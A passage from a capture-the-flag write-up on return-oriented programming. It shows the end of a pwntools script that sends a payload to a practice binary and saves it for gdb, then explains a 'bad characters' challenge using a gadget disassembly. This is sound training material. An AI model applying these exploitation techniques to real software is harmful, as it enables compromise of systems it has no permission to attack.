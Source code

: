 ```python

print("The payload is:")
print(payload)
print("Payload size is:" + str(len(payload)))
input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))
io.send(payload)
input("exploit sent hit enter to end")
print(io.clean(0.5).decode("utf-8"))

sleep(1)

f = open('./payload', 'wb')
f.write(payload)
f.close()

```

Note: I started writing my exploits into files for easier debugging in gdb. Before I would run the exploit and then attach gdb for debugging with `gdb -p $pid` but now I can just do `r < ./payload` within gdb which is nice



## Challenge 5

Now we have the challenge of dealing with bad chars in our exploit. Not all exploitable programs are so nice to just read in whatever you give it. For example if you are sending a string of text, it may end on a newline, carriage return, or null space. However, you may need these characters to do your dream exploit. 

In order to get around this problem, we have to give the program chars that are accepted then later modify them into what we want. In this exploit, we have to do basically the same thing as the last exploit, however we are unable to pass the characters 'x', 'g', 'a', or '.' and all of those are needed to write in "flag.txt". So what we are going to do is write in some known ("but arbitrary") value's into the location of the bad chars. Then we will use gadgets to modify those values into what we want.

For example, rather then writing 'a' into the binary we write 'b' then we simply subtract 1 from that memory location. 


By this point, I realized that the author of the challenge's had included an 'usefulGadgets' section in the binary (probably should have sooner), so the first thing to do is look over those gadgets and see what we have to work with.

```
pwndbg> disass usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:     xor    BYTE PTR [r15],r14b
   0x000000000040062b <+3>:     ret    
   0x000000000040062c <+4>:     add    BYTE PTR [r15],r14b
   0x000000000040062f <+7>:     ret    
   0x0000000000400630 <+8>:     sub    BYTE PTR [r15],r14b
   0x0000000000400633 <+11>:    ret    
   0x0000000000400634 <+12>:    mov    QWORD PTR [r13+0x0],r12
   0x0000000000400638 <+16>:    ret    
   0x0000000000400639 <+17>:    nop    DWORD PTR [rax+0x0]
End of assembler dump.
```
